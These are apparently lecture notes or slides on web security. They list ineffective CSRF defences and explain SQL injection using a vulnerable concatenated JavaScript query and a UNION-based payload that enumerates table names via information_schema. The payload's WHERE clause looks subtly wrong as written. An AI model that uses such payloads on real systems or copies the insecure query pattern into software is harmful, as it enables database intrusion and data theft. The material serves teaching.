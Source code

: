
## What Methods Do Not Work?

  * Using a secret cookie
  * Only accepting POST requests
  * Multi-Step Transactions
  * URL Rewriting
  * HTTPS
  

# Database Vulnerabilities

## Common DBs

  * Most common databases:

    - SQL
    - NoSQL (MongoDB)
     


## SQL Injection

Executing malicious SQL instructions by exploiting query parameters

   A non-secure query with concatenation:

```javascript
   db.query('SELECT address FROM users WHERE id = ' + req.query.id);
``` 

   
   query gets the id from user and gives the address.
    

## Retrieving All Database Tables 

  * Normal user input: A number like 258

  * Resulting query: `SELECT address FROM users WHERE id = 258`
   
  * Malicious attacker input:

```sql
                "1 UNION SELECT group_concat(table_name) 
                FROM information_schema.tables 
                WHERE table_name = database()"
```  

                          
  * Resulting query:

```sql
                "SELECT address FROM users 
                WHERE id = 1 
                UNION SELECT group_concat(table_name) 
                FROM information_schema.tables 
                WHERE table_name = database()"
```
